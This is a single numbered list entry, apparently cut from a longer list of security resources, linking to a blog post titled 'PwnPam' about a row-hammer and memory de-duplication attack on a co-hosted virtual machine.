9. [PwnPam](https://mtalbi.github.io/exploit,/row-hammer,/memory/de-duplication/2017/10/04/attacking-a-co-hosted-vm.html)
